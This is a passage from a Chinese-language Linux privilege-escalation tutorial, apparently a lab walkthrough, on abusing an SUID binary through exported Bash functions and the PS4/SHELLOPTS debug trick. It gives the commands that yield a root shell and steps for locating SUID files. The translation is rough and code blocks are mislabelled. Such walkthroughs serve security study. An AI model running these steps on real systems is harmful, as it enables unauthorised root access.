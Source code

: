 ![image-20210701173609992](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a21c4510c37f2ae3a10f4e4cb03982bd01ed03f7.png)

#### 6.创建 具有"/usr/sbin/service"名称的 Bash 功能 并导出 该功能：

```php
function /usr/sbin/service { /bin/bash -p; }
export –f /usr/sbin/service 
```

#### 7.执行用于根壳的 SUID 文件：

```php
/usr/local/bin/suid-env2 
root@debian:~# id 
uid=0(root) gid=0(root) groups=0(root) 
```

二、滥用外壳功能
--------

### 前言

Bash具有调试模式，可启用`–x`命令行选项，或通过修改 SHELLOPTS 环境变量以包括 xtrace启用。  
默认情况下，SHELLOPTS是只读的，但是env命令允许

外壳选择待设置  
在调试模式下，Bash 使用环境变量 PS4 显示调试语句的额外提示。此变量可以包括嵌入式命令，该命令每次显示时都会执行。

三、总线外壳功能

如果 SUID 文件通过 Bash 运行其他程序（例如使用system）， 这些环境变量可以继承。  
如果执行 SUID 文件，此命令将使用文件所有者的权限执行。  
在 Bash 版本 4.4 及以上中，PS4 环境变量不会由作为root运行的外壳继承。

### 实操

#### 1.在目标上查找苏伊德/SGID 文件 ：

```php
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null 

-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2 
```

这个`suid-env2` 文件在root用户权限下执行

#### 2.在SUID文件上运行字符串：

```php
$ strings /usr/local/bin/suid-env2 

/usr/sbin/service apache2 start
```

该文件可能正在尝试运行 `/usr/sbin/service`程序

#### 3.我们可以用策略来验证这一点：
